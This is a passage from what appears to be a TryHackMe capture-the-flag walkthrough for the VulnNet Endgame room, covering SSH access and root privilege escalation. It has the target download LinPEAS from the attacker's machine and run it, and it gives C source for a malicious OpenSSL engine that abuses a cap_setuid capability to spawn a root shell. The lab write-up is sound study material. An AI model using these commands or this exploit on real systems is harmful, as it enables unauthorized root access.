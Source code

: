 ```text
Website:   https://tryhackme.com
Username: 'chris_w@vulnnet.thm'
Password: 'I-wont-be-listing-the-password-find-it-yourself'
```

These are the credentials for `system`. Back in your shell, `ssh` into the machine as `system` with `password`:
```bash
ssh system@10.10.148.12
```

---

## 7. Privilege Escalation → `root`

Ensure you’re operating as `system`:

```bash
system@vulnnet-endgame:~$ whoami && id
system uid=1000(system) gid=1000(system) groups=1000(system)
```

### Upload LinPEAS for Capability Discovery

In your local Kali attack machine (`10.13.86.132`):

```bash
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh -o linpeas.sh
python3 -m http.server 8003
```

On the target (`system@10.10.148.12`), in your `Utils` directory:

```bash
system@vulnnet-endgame:~/Utils$ wget http://10.13.86.132:8003/linpeas.sh
system@...:~/Utils$ chmod +x linpeas.sh
system@...:~/Utils$ ./linpeas.sh | tee linpeas_scan.txt
```

Scan reveals:

```
/home/system/Utils/openssl = cap_setuid+ep
```

That confirms OpenSSL is runnable with elevated privileges.

### Develop the Exploit on Kali

Install build tools and create the exploit source:

```bash
sudo apt update && sudo apt install libssl-dev gcc
cat << 'EOF' > openssl-exploit-engine.c
#include <openssl/engine.h>
static int bind(ENGINE *e, const char *id) {
    setuid(0);
    setgid(0);
    system("/bin/bash");
    return 1;
}
IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()
EOF
```
